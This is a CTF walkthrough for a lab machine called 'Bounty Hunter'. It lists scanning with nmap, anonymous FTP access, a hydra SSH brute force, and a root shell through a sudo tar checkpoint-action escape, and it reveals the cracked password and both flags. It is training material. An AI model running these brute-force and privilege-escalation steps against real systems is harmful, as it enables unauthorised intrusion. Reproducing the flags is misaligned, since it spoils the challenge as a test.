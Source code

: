 # Bounty Hunter 

> You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

<br>

Process:
- 1) port scan the machine 
  - `nmap -T4 <ip>`
- 2) aggressive scan the open ports on the machine 
  - `nmap -T4 -A -p 21,22,80 <ip>`
- 3) check anonymous FTP login
  - `ftp <ip>` -> [anonymous] 
  - found: task.txt written by = **lin**
  - found: locks.txt 
  - can try to brute force service with locks.txt = **ssh**
- 4) try to brute force ssh
  - `hydra -u lin -P lock.txt <ip> ssh`
  - found password = **RedDr4gonSynd1cat3**
- 5) login to ssh:
  - look for user.txt
    - `cat user.txt` = **THM{CR1M3_SyNd1C4T3}**
- 6) escalate privileges:
  - find out what sudo commands lin can run: `sudo -l` -> /bin/tar
  - look at GTFOBins for /bin/tar with sudo:
    - found: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
    - execute to get root shell
  - find root.txt 
    - `cat /root/root.txt` = **THM{80UN7Y_h4cK3r}**


